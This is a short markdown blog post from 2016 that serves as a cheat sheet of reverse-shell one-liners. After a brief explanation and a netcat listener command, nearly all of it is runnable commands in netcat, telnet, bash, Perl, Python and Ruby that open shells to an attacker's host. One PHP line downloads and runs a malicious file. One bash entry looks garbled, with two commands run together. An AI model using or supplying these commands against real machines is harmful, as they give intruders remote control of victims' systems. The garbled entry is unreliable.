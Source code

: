 ```yaml
---
layout: post
title: "Reverse Shells"
description: "quick and dirty reverse shells"
tags: ["Security", "Offense", "Reverse-Shell"]
date: 2016-12-27
---
```


Reverse shells can be used to execute commands or collect data from another computer. The concept is that the attacker opens a listening port on which the victim (through some exploit) connects to the attacker over tcp. This configuration also works vice versa which is known as a bind shell.

It's important to consider what software the victim might have on their machine to enable this connection, thus using built in tools can be a smart approach.

#### Here's how you start the listener to connect to the vicitm (using netcat):

	attacker$ nc -l -v attackerip 4444


#### Netcat

	nc <attacker_ip> <port> -e /bin/bash

#### no -e flag? use the GAPING_SECURITY_HOLE technique

	mknod backpipe p; nc <attacker_ip> <port> 0<backpipe | /bin/bash 1>backpipe

#### /dev/tcp

	/bin/bash -i > /dev/tcp/<attacker_ip>/<port> 0<&1 2>&1

#### Telnet - GAPING_SECURITY_HOLE

	mknod backpipe p; telnet <attacker_ip> <port> 0<backpipe | /bin/bash 1>backpipe

#### PHP

	wget -O /tmp/bd.php <url_to_malicious_file> && php -f /tmp/bd.php

#### Bash

	bash -i >& /dev/tcp/10.0.0.1/8080 0>&10<&196;exec 196<>/dev/tcp/attackerip/4444;

	sh <&196 >&196 2>&196

	exec 5<>/dev/tcp/attackerip/4444

	cat <&5 | while read line; do $line 2>&5 >&5; done  # or:

	while read line 0<&5; do $line 2>&5 >&5; done

#### PERL

	perl -MIO::Socket -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr => "127.0.0.1:1234");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'

#### Python

	python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'

#### Ruby

	ruby -rsocket -e 'exit if fork;c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'

### Further Reading

[http://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html][1]

[https://pen-testing.sans.org/blog/2013/05/06/netcat-without-e-no-problem][2]

[1]:	http://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html
[2]:	https://pen-testing.sans.org/blog/2013/05/06/netcat-without-e-no-problem

